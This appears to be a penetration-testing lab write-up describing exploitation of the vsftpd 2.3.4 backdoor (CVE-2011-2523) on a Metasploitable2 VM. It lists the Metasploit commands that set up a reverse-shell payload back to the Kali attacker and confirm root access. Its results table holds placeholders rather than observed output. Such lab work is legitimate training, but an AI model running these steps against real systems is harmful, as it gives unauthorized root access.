





# Controlled Exploitation

## Objective

To exploit, entirely from the Kali Linux attacker machine, the `vsftpd 2.3.4` backdoor vulnerability (CVE-2011-2523) identified on TCP port 21 during the Vulnerability Analysis phase, establish a reverse shell back to Kali, and gain system access to the Metasploitable2 target.

## Lab Environment
1. Virtual Box: `Oracle VirtualBox`
2. Host/Attacker System: `Kali Linux`
3. Target System: `Metasploitable2`
4. Target IP Address: `192.168.56.7`
5. Attacker IP Address: `192.168.56.4`
6. Network Configuration: `Host-Only Adapter`
7. Tools: `Metasploit Framework (msfconsole)`

## Process

### Step 1: Confirm the Target Vulnerability

This step was already completed in the Vulnerability Analysis phase. The target was confirmed to be running `vsftpd 2.3.4` on TCP port 21, with a documented backdoor vulnerability (CVE-2011-2523) and a matching Metasploit module (`exploit/unix/ftp/vsftpd_234_backdoor`).

### Step 2: Launch Metasploit Framework

#### Command Used
```msfconsole```

#### Explanation
Started the Metasploit Framework console on Kali Linux to select, configure, and launch the exploit module identified in the Vulnerability Analysis phase.

<br>

### Step 3: Select and Configure the Exploit Module

#### Commands Used
```text
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.7
set RPORT 21
show options
```

#### Explanation
Selected the module targeting the `vsftpd 2.3.4` backdoor and set the target IP and port. `show options` was used to confirm all required parameters were set correctly before running the exploit.

#### Results

| Option | Value Set |
|---|---|
| RHOSTS | `192.168.56.7` |
| RPORT | `21` |

<br>
<br>

### Step 4: Configure the Reverse Shell Payload

#### Commands Used
```text
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.56.4
set LPORT 4444
show options
```

#### Explanation
Configured a reverse shell payload so that, upon successful exploitation, the target initiates an outbound connection back to Kali Linux (`LHOST`/`LPORT`) and gives Kali an interactive shell, rather than Kali connecting out to the target.

#### Results

| Option | Value Set |
|---|---|
| PAYLOAD | `cmd/unix/reverse` |
| LHOST | `192.168.56.4` |
| LPORT | `4444` |

<br>

### Step 5: Execute the Exploit

#### Command Used
```
exploit
```

#### Explanation
Launched the exploit. Metasploit sent the crafted login string to trigger the backdoor on the target's FTP service, and started a listener on Kali to catch the resulting reverse connection on port 4444.


### Step 6: Verify Shell Access and Privilege Level

#### Commands Used
```bash
whoami
id
hostname
uname -a
```

#### Explanation
Once the reverse shell session was established, these commands were run in the same terminal to confirm the privilege level obtained and verify the shell belongs to the target system, not Kali.

#### Results

| Command | Executes On | Observed Output |
|---|---|---|
| `whoami` | Metasploitable2 | `[Record actual output, expect "root"]` |
| `id` | Metasploitable2 | `[Record actual output, expect uid=0(root)]` |
| `hostname` | Metasploitable2 | `[Record actual output, expect "metasploitable"]` |
| `uname -a` | Metasploitable2 | `[Record actual output, expect 2.6.24 kernel]` |

<br>

## Security Observations

1. The `vsftpd 2.3.4` service on TCP port 21 contained a known, publicly documented backdoor vulnerability (CVE-2011-2523).
2. Exploitation required no authentication and granted an immediate root-level reverse shell.


## Conclusion

Exploitation performed from the Kali Linux terminal against the `vsftpd 2.3.4` backdoor on TCP port 21 established a reverse shell session, granting unauthenticated root-level access to the Metasploitable2 target. The access was verified through privilege and identity checks. This session is carried forward into the Post-Exploitation phase, where `sysinfo` and `hashdump`-equivalent commands are run to assess impact.